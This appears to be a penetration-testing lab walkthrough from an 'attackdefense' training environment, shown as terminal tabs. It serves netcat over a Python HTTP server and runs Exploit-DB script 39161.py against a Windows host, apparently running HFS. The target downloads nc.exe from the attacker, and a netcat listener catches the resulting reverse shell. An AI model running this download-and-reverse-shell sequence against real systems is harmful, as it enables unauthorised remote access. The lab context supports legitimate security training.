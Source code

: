 Tab3

```
root@attackdefense:~# cd /usr/share/windows-binaries
root@attackdefense:/usr/share/windows-binaries# ls
enumplus  exe2bat.exe  fgdump  fport  klogger.exe  mbenum  nbtenum  nc.exe  plink.exe  radmin.exe  vncviewer.exe  wget.exe  whoami.exe
root@attackdefense:/usr/share/windows-binaries# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

```python
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!

	ip_addr = "10.10.21.3" #local IP address
	local_port = "1234" # Local Port number
```

Tab1

```
root@attackdefense:~# python 39161.py 10.0.25.234 80
```

Tab3

```
root@attackdefense:/usr/share/windows-binaries# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.25.234 - - [22/Jun/2023 06:57:59] "GET /nc.exe HTTP/1.1" 200 -
10.0.25.234 - - [22/Jun/2023 06:57:59] "GET /nc.exe HTTP/1.1" 200 -
10.0.25.234 - - [22/Jun/2023 06:57:59] "GET /nc.exe HTTP/1.1" 200 -
10.0.25.234 - - [22/Jun/2023 06:57:59] "GET /nc.exe HTTP/1.1" 200 -

```

Tab2

```
root@attackdefense:~# nc -nvlp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234

```

Tab1

```
root@attackdefense:~# python 39161.py 10.0.25.234 80
```

Tab2

```
root@attackdefense:~# nc -nvlp 1234 
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.0.25.234.
Ncat: Connection from 10.0.25.234:49516.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\hfs>
```
